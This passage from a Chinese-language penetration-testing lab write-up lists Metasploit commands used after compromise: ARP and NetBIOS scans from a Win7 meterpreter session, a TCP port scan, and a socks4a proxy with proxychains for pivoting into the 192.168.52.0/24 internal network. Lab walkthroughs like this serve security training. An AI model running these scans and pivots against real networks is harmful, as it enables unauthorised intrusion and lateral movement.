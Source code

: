 ```
run post/windows/gather/arp_scanner RHOSTS=192.168.52.0/24
```

![image-20230516205733104](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516205733104.png)

## 扫描存活主机:

先从win7的meterpreter session中退出来，执行：

```
use auxiliary/scanner/netbios/nbname
set rhosts 192.168.52.130
run
```

![image-20230516210721229](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516210721229.png)

## 内网端口信息：

```
use auxiliary/scanner/portscan/tcp
```

![image-20230516211132837](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516211132837.png)

## 挂socks4a代理

挂代理是为了让其他工具能够通过win7 ，去访问192.168.52.0/24 网段

配置msf代理：

```
use auxiliary/server/socks_proxy
```

```
show options
set version 4a
```

![image-20230516211420178](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516211420178.png)

```
show options
set srvport 1080
run
```

![image-20230516211601202](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516211601202.png)

如果proxychains配置终端代理出现问题 修改一下文件`/etc/proxychains4.config`

再开一个终端nano编辑proxychains4.config，把端口改成1080，记得用root身份

![image-20230516211944344](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516211944344.png)
